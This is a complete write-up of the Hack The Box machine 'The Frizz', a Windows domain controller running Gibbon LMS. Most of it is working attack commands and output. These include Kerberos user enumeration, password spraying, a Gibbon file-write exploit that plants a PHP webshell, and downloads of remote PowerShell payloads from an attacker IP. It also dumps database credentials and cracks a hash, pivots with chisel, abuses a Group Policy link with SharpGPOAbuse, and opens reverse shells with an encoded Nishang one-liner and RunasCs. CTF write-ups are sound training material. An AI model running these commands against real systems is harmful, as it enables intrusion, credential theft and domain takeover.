

# The Frizz


## Initial Enumeration

```bash
nmap -sC -sV -Pn 10.129.58.161 -oN scans/nmap.initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-16 20:33 GMT
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.26% done; ETC: 20:34 (0:00:00 remaining)
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.41% done; ETC: 20:34 (0:00:00 remaining)
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.41% done; ETC: 20:34 (0:00:00 remaining)
Nmap scan report for 10.129.58.161
Host is up (0.051s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-17 03:34:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-03-17T03:34:08
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.14 seconds
```

## DNS Enum

Simple DNS Plus is the default on domain controllers, Getting all records.
```bash
dig +short ANY @10.129.58.161 frizz.htb
192.168.120.50
10.129.58.161
frizzdc.frizz.htb.
frizzdc.frizz.htb. hostmaster.frizz.htb. 114 900 600 86400 3600
dead:beef::1f98:f30e:e1e3:79b4
```

Adding everything we found so far to my hosts file.
```bash
10.129.58.161   hostmaster.frizz.htb frizzdc.frizz.htb frizz.htb FRIZZDC
```

## SMB Enum

Trying a few things for potential non authenticated access to the shares, but nope
```bash
smbclient -N -L //10.129.58.161
nxc smb 10.129.58.161 -u '' -p '' --shares
nxc smb 10.129.58.161 -u 'guest' -p '' --shares
nxc smb 10.129.58.161 -u 'guest' -p 'asdf' --shares
```

## Kerberos User Enum

Launching a user enum bruteforce in the background
```bash
kerbrute userenum \
  -d frizz.htb \
  --dc 10.129.58.161 \
  -o valid_ad_users \
  /usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
```

## SSH Enum

That's not typically something common, but it's there
```bash
nc frizz.htb 22
SSH-2.0-OpenSSH_for_Windows_9.5
```

Password auth is not enabled
```bash
ssh f.frizzle@frizz.htb
```
```
The authenticity of host 'frizz.htb (10.129.58.161)' can't be established.
ED25519 key fingerprint is SHA256:667C2ZBnjXAV13iEeKUgKhu6w5axMrhU346z2L2OE7g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'frizz.htb' (ED25519) to the list of known hosts.
f.frizzle@frizz.htb: Permission denied (gssapi-with-mic,keyboard-interactive).
```

## Apache Web Server

Now that's weird, that kinda stands out on a windows box but looking at the http headers, just like ssh it looks like it's installed on windows rather than a container, navigating to the [homepage](http://frizzdc.frizz.htb/home/)

lol
```bash
wl-paste |base64 -d
```
```
Want to learn hacking but don't want to go to jail? You'll learn the in's and outs of Syscalls and XSS from the safety of international waters and iron clad contracts from your customers, reviewed by Walkerville's finest attorneys.
```

An LMS is a Learning Management System or something

- [http://frizzdc.frizz.htb/Gibbon-LMS/](http://frizzdc.frizz.htb/Gibbon-LMS/)
- Powered by Gibbon v25.0.00

Potentially/maybe important information
```
*NOTICE** Due to unplanned Pentesting by students, WES is migrating applications and tools to stronger security protocols. During this transition, Ms. Fiona Frizzle will be migrating Gibbon to utilize our Azure Active Directory SSO. Please note this might take 48 hours where your accounts will not be available. Please bear with us, and thank you for your patience. Anything that can not utilize Azure AD will use the strongest available protocols such as Kerberos. 
```

We're on v25
```bash
searchsploit gibbon
-------------------------------------------------- --------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- --------------------------
Gibbon LMS < v26.0.00 - Authenticated RCE         | php/webapps/51903.py
Gibbon LMS v26.0.00 - SSTI vulnerability          | php/webapps/51962.txt
-------------------------------------------------- --------------------------
Shellcodes: No Results
```

So those may be interesting to explore
```bash
searchsploit -m php/webapp/51903.py
searchsploit -m php/webapp/51962.txt
```

The RCE is authenticated and we don't have an account yet, so I'm looking at the SSTI first, the both seem to be related as they have been found by the same ppl and their CVE numbers are back to back
- ssti = [CVE-2024-24724](https://packetstorm.news/files/id/177857)
-  rce = [CVE-2024-24725](https://packetstorm.news/files/id/177635/)

Nevermind, looking at the code of the ssti this needs a username and password too, so we need a valid username and password, lets look at the login flow in burp, it's a php site and the login page expects data in multipart form

The Login page, since the mail password are incorrect we get a 302 found and we're sent back to `http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=fail`
```
POST /Gibbon-LMS/login.php?loginReturn=fail1 HTTP/1.1
Host: frizzdc.frizz.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Length: 766
Origin: http://frizzdc.frizz.htb
Connection: close
Referer: http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=fail1
Cookie: G60fa1cd0af7be78b=1ulfv4rkdrqlvd3cu3vnea1j9b
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="address"

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="method"

default

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="username"

niet@frizz.htb

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="password"

whatever

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="gibbonSchoolYearID"

025

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4
Content-Disposition: form-data; name="gibboni18nID"

0002

------geckoformboundarya1b1e45a2b21183b60a5ec6cfd4c3be4--

```

If we try the forgot password button, that's what gets sent, we get a 200 nothing really seems to happen on the browser side, we just remain on the index.ph page.
```bash
GET /Gibbon-LMS/index.php?q=passwordReset.php HTTP/1.1
Host: frizzdc.frizz.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=fail1
Cookie: G60fa1cd0af7be78b=1ulfv4rkdrqlvd3cu3vnea1j9b
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Could this be something similar to this other box? [forgot.htb](https://blnknlights.github.io/htb/machines/medium/forgot/forgot.html#forgot-password-feature)

```bash
[22:37:17] 500 -  631B  - /cgi-bin/printenv.pl
[22:37:58] 301 -  329B  - /home  ->  http://frizz.htb/home/

```
```bash
curl -i http://frizz.htb/cgi-bin/printenv.pl
HTTP/1.1 500 Internal Server Error
Date: Mon, 17 Mar 2025 05:39:46 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
Content-Length: 631
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
 f.frizzle@frizz.htb to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12 Server at frizz.htb Port 80</address>
</body></html>
```

The 500 error message gives us fiona's email, and by extension her samaccountname
```bash
kerbrute userenum \
  -d frizz.htb \
  --dc 10.129.58.161 \
  valid_ad_users

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/16/25 - Ronnie Flathers @ropnop

2025/03/16 22:42:55 >  Using KDC(s):
2025/03/16 22:42:55 >  	10.129.58.161:88

2025/03/16 22:42:55 >  [+] VALID USERNAME:	 f.frizzle@frizz.htb
2025/03/16 22:42:55 >  [+] VALID USERNAME:	 administrator@frizz.htb
2025/03/16 22:42:55 >  Done! Tested 4 usernames (2 valid) in 0.051 seconds
```

We can also guess a few other characters from googling about the magic schoolbus
```bash
kerbrute userenum \
  -d frizz.htb \
  --dc 10.129.58.161 \
  users

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/16/25 - Ronnie Flathers @ropnop

2025/03/16 22:55:13 >  Using KDC(s):
2025/03/16 22:55:13 >  	10.129.58.161:88

2025/03/16 22:55:13 >  [+] VALID USERNAME:	 v.frizzle@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 administrator@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 c.ramon@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 p.terese@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 a.perlstein@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 w.li@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 f.frizzle@frizz.htb
2025/03/16 22:55:13 >  [+] VALID USERNAME:	 d.hudson@frizz.htb
2025/03/16 22:55:13 >  Done! Tested 8 usernames (8 valid) in 0.041 seconds
```

```bash
hydra \
  -L loot/emails \
  -P ~/.local/share/seclists/rockyou.txt \
  10.10.11.42 \
  ldap2 \
  -V \
  -f
```
```bash
nxc ldap 10.129.58.161 \
  -u loot/emails \
  -p ~/.local/share/seclists/rockyou.txt \
  --ignore-pw-decoding
```

## Those are the CVEs I played with
```
         ssti = [CVE-2024-24724](https://packetstorm.news/files/id/177857)
          rce = [CVE-2024-24725](https://packetstorm.news/files/id/177635/)
          xss = [CVE-2023-45881](https://herolab.usd.de/security-advisories/usd-2023-0024/)
  file write  = [CVE-2023-45878](https://herolab.usd.de/security-advisories/usd-2023-0025/)
```

## CVE-2023-45881 - XSS (Unsuccessfull)

- [CVE-2023-45881](https://herolab.usd.de/security-advisories/usd-2023-0024/)

```bash
curl -i \
  -x "http://localhost:8080" \
  --url "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Planner/resources_addQuick_ajaxProcess.php" \
  -F "id=body" \
  -F "bodyfile1=@file.jpg;filename=.jpg" \
  -F "imagesAsLinks=Y"  
```
```bash
curl -i \
  --url "http://localhost/modules/Planner/resources_addQuick_ajaxProcess.php" \
  -F "id=body" \
  -F "bodyfile1=@file.jpg;filename=.jpg" \
  -F "imagesAsLinks=Y"
```
```bash
curl -i \
  -x http://localhost:8080 \
  --url 'http://frizzdc.frizz.htb/Gibbon-LMS/modules/Planner/resources_addQuick_ajaxProcess.php' \
  -F "id=body" \
  -F "bodyaddress=" \
  -F "bodyfile1=nothing;filename=../.gif" \
  -F "bodyfile2=" \
  -F "bodyfile3=" \
  -F "bodyfile4=" \
  -F "imagesAsLinks=Y"
```
```bash
curl -i \
  -x http://localhost:8080 \
  --url 'http://frizzdc.frizz.htb/Gibbon-LMS/modules/Planner/resources_addQuick_ajaxProcess.php' \
  -F "id=body" \
  -F "bodyaddress=" \
  -F "bodyfile1=nothing;filename=../.jpg" \
  -F "bodyfile2=" \
  -F "bodyfile3=" \
  -F "bodyfile4=" \
  -F "imagesAsLinks=Y"
```
```bash
filename="../.gif"
```
```bash
curl -i \
  --url "http://localhost/modules/Planner/resources_addQuick_ajaxProcess.php" \
  -F "id=body" \
  -F "bodyfile1=@hamster.jpg;filename=.jpg" \
  -F "imagesAsLinks=Y"
```
```bash
curl -i \
  --url "http://localhost/modules/Planner/resources_addQuick_ajaxProcess.php" \
  -F "id=body" \
  -F "bodyfile1=@hamster.jpg;filename=.gif" \
  -F "imagesAsLinks=Y"
```
```bash
http://localhost/index.php?q=/modules/Planner/planner_view_full.php&gibbonPlannerEntryID=00000000000001&viewBy=date&gibbonCourseClassID=&date=2025-03-20&width=1000&height=5500
```
```bash
curl -i \
  -x http://localhost:8080 \
  --url "http://localhost/modules/Rubrics/rubrics_visualise_saveAjax.php" \
  -d 'img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001'
```

## CVE-2023-45878 - Arbitrary File Write

This one ended up being that one that worked for me, the poc is a simple file inclusion that drops a php webshell at the root of the webserver
```
POST /modules/Rubrics/rubrics_visualise_saveAjax.php HTTP/1.1
Host: localhost:8080
[...]


img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001
```

Doing that with curl
```bash
curl -i \
  -x http://localhost:8080 \
  --url 'http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php' \
  -d ' img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001'
```

With that webshell I'm uploading a PowerJoker shell
```
powershell -c iwr "http://10.10.16.71:9090/joke.ps1" -o ./joke.ps1
powershell -c "./joke.ps1"
```

## Database credentials exposure

We know gibbon typically uses a mysql db, Looking at the source files, it seems the creds are stored here
```powershell
type C:\xampp\htdocs\Gibbon-LMS\config.php
```
```
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'Mist********';
$databaseName = 'gibbon';
```

## Pivot with Chisel

Building chisel for windows
```bash
GOOS=windows go build .
```

Get it on the box
```powershell
iwr "http://10.10.16.71:9090/chisel.exe" -o ./chisel.exe
```

Running a socks5 proxy
```bash
./chisel server -p 4040 --socks5 --reverse
./chisel.exe client 10.10.16.71:4040 R:1080:socks
```

Access the database through the proxy
```bash
proxychains mysql -u MrGibbonsDB -h 127.0.0.1 --password='Mist********' -D gibbon --skip-ssl -A
```

Pillage the database to get f.frizzle's hash
```bash
MariaDB [gibbon]> select username,passwordstrong,passwordstrongsalt from gibbonperson;
+-----------+------------------------------------------------------------------+------------------------+
| username  | passwordstrong                                                   | passwordstrongsalt     |
+-----------+------------------------------------------------------------------+------------------------+
| f.frizzle | 067************************************************************* | /aACFhikmNopqrRTVz2489 |
+-----------+------------------------------------------------------------------+------------------------+
1 row in set (0.408 sec)
```

## Crack salted sha256

This is a salted sha256
```bash
wl-paste|wc -c
64
```

Looking at `passwordResetProcess.php`, according to the source code it's hashed like that:
```php
//Update password
$salt = getSalt();
$passwordStrong = hash('sha256', $salt.$passwordNew);
```

So in hashcat format that would be:
```bash
cat hash.txt
067******************************************************:/aACFhikmNopqrRTVz2489
```

And according to the source code it's mode 1420
```
1420 | sha256($salt.$pass)                                        | Raw Hash salted and/or iterated
```

This laptop is ancient, I can't run hashcat on it so I'm starting a digital ocean droplet
```bash
doctl compute droplet create test \
  --size s-4vcpu-8gb \
  --image ubuntu-24-10-x64 \
  --region lon1 \
  --ssh-keys 45956874
```

Install hashcat on it and clinfo to make sure we have a working Open CL runtime on the machine
```bash
apt-get install hashcat clinfo
```

Get rockyou in the box
```bash
scp ~/.local/share/seclists/rockyou.txt root@134.***********:
```

And run hashcat
```bash
hashcat -m 1420 hash rockyou.txt
```

We quickly crack the password
```bash
hashcat -m1420 --show hash
067******************************************************:/aACFhikmNopqrRTVz2489:Je**********
```

And we can delete the droplet
```bash
doctl compute droplet delete test
```

## SSH with Kerberos

```bash
ssh f.frizzle@frizz.htb
f.frizzle@frizz.htb: Permission denied (gssapi-with-mic,keyboard-interactive).
```
```bash
sudo timedatectl set-ntp false
sudo ntpdate frizz.htb
```
```bash
getTGT.py frizz.htb/f.frizzle:Je**********
```
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in f.frizzle.ccache
```
```bash
export KRB5CCNAME=f.frizzle.ccache
```
```bash
kinit
```
```bash
klist
```
```
Ticket cache: FILE:f.frizzle.ccache
Default principal: f.frizzle@FRIZZ.HTB

Valid starting       Expires              Service principal
03/23/2025 00:14:17  03/23/2025 10:14:17  krbtgt/FRIZZ.HTB@FRIZZ.HTB
	renew until 03/24/2025 00:14:17
```
```bash
sudo vim /etc/krb5.conf
```
```
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    FRIZZ.HTB = {
        kdc = frizz.htb
        admin_server = frizz.htb
    }

[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
```
```bash
cat ~/.ssh/config
```
```
KexAlgorithms diffie-hellman-group18-sha512,ecdh-sha2-nistp521
Host *
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials yes
```
```bash
ssh -v f.frizzle@FRIZZ.HTB
```

## BloodHound

Get sharphound on the box
```bash
iwr "http://10.10.16.71:9090/SharpHound.exe" -OutFile ./SharpHound.exe
```

Run it
```bash
.\SharpHound.exe -c all
```

Exfiltrate the results
```bash
scp f.frizzle@FRIZZ.HTB:Documents/20250322182342_BloodHound.zip .
```

## Credential exposure

There's a 7z archive in there, out of that shtuff, whatever that is there's a config file with a password in it, and it seems relevant if you read it in reverse.
```bash
wl-paste|base64 -d
!sub**********
```

## TGT as m.schoolbus

We can get a TGT out of that password as m.schoolbus
```bash
getTGT.py frizz.htb/m.schoolbus:'!sub**********'
```

SSH didn't work for me the first time though so I started looking around for things I could do with that TGT

We could pass the TGT, also didn't work
```bash
psexec.py frizz.htb/m.schoolbus@frizz.htb -k -no-pass
wmiexec.py frizz.htb/m.schoolbus@frizz.htb -k -no-pass
smbexec.py frizz.htb/m.schoolbus@frizz.htb -k -no-pass
```

Kerberoasting, also didn't work
```bash
GetUserSPNs.py \
  -dc-host FRIZZ.HTB \
  FRIZZ.HTB/f.frizzle -k -no-pass
```

Trying to see if I could change user directly in powershell, didn't work
```powershell
Start-Process -FilePath “powershell.exe” -Credential $Credential
```
```powershell   
$Cred = Get-Credential
Enter-PSSession -Cred $Cred -Computername frizzdc
```

With Nishang, didn't work
```powershell
cp Invoke-PowerShellTcpOneLine.ps1 ~/www
```
```powershell
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf16le | base64 -w0 > nish
```
```powershell
Start-Process -FilePath powershell -argumentlist "-enc IwAkAHMAbQA9ACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwAxADAALgAxADAALgAxADYALgA3ADEAJwAsADQAMgA0ADIAKQApAC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB0AD0AMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpAD0AJABzAG0ALgBSAGUAYQBkACgAJABiAHQALAAwACwAJABiAHQALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAD0AKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHQALAAwACwAJABpACkAOwAkAHMAdAA9ACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAKABpAGUAeAAgACQAZAAgADIAPgAmADEAKQApADsAJABzAG0ALgBXAHIAaQB0AGUAKAAkAHMAdAAsADAALAAkAHMAdAAuAEwAZQBuAGcAdABoACkAfQAKAA==" -Credential $Cred
```

After a good night sleep and a box reset, SSH as m.schoolbus just worked...


## Abuse WriteGPLink

The graph when looking at m.schoolbus's outbound access control looks kinda cool


More specifically that's the interesting bit



m.schoolbus has WriteGPLink over those 2 OUs which have genericWrite over the Administrators group, at the time of my SharpHound collection m.schoolbus, was a member of Administrator, but I assume it's because of somebody else's exploitation of this very misconfiguration, as when looking at group membership for m.schoolbus in the box right now, I don't think we're a member
```powershell
whoami /Groups
```

I'm getting pre-compiled version of SharpGPOAbuse from SharpCollection
- [https://labs.withsecure.com/publications/ou-having-a-laugh](https://labs.withsecure.com/publications/ou-having-a-laugh)
- [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
- [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

## Tangent with a bunch of commands

The following bunch was not necessarilly successfull, but still worth keeping as notes

Download and load powerview
```powershell
iwr "http://10.10.16.71:9090/PowerView.ps1" -OutFile ./PowerView.ps1
powershell.exe -nop -exec bypass
Import-Module .\PowerView.ps1
```

Get GPOs
```powershell
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
Get-NetGPO | select displayname
Get-GPO -Name "Default Domain Policy"
Get-GPO -Name "Default Domain Controllers Policy"
```
```powershell
Get-GPPermission `
  -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 `
  -TargetType User `
  -TargetName m.schoolbus
```
```powershell
net view \\frizz.htb
```

```powershell
iwr "http://10.10.16.71:9090/SharpGPOAbuse.exe" -OutFile ./SharpGPOAbuse.exe
```

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "Default Domain Controllers Policy"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "Default Domain Policy"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "asdf"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount 'm.schoolbus' --GPOName "100"
```
```powershell
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount 'm.schoolbus' --GPOName "Default Domain Controllers Policy"
```
```powershell
Add-LocalAdmin -Identity 'm.schoolbus' -GPOIdentity "Default Domain Controllers Policy"
```
```powershell
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```
```powershell
Get-DomainObjectAcl -Identity "Default Domain Controllers Policy" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

## Successfully abuse WriteGPLink

Create a new GPO with built in powershell commands
```powershell
New-GPO -Name "blnkn"
```
```
DisplayName      : blnkn
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : 1c8a7cdb-a68a-45e5-8eef-e1b9257c7f27
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 3/23/2025 12:34:48 PM
ModificationTime : 3/23/2025 12:34:48 PM
UserVersion      :
ComputerVersion  :
WmiFilter        :
```

Add a GPLink to the domain controllers OU
```powershell
New-GPLink -Name "blnkn" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
```
```
GpoId       : 1c8a7cdb-a68a-45e5-8eef-e1b9257c7f27
DisplayName : blnkn
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

Get SharpGPOAbuse.exe on the box
```powershell
iwr "http://10.10.16.71:9090/SharpGPOAbuse.exe" -OutFile ./SharpGPOAbuse.exe
```

Add m.schoolbus to localadmin group
```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount m.schoolbus --GPOName blnkn
```
```
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of m.schoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "blnkn" is: {1C8A7CDB-A68A-45E5-8EEF-E1B9257C7F27}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{1C8A7CDB-A68A-45E5-8EEF-E1B9257C7F27}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
PS C:\ProgramData> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

Force a group policy update
```powershell
gpupdate /force
```

No that m.schoolbus is local admin Get Runas CSharp on the box
```powershell
iwr "http://10.10.16.71:9090/RunasCs.exe" -OutFile ./RunasCs.exe
```

Use it to send a revese shell back to our machine as 
```powershell
.\RunasCs.exe "m.schoolbus" '!sub**********' powershell.exe -r 10.10.16.71:4242
```
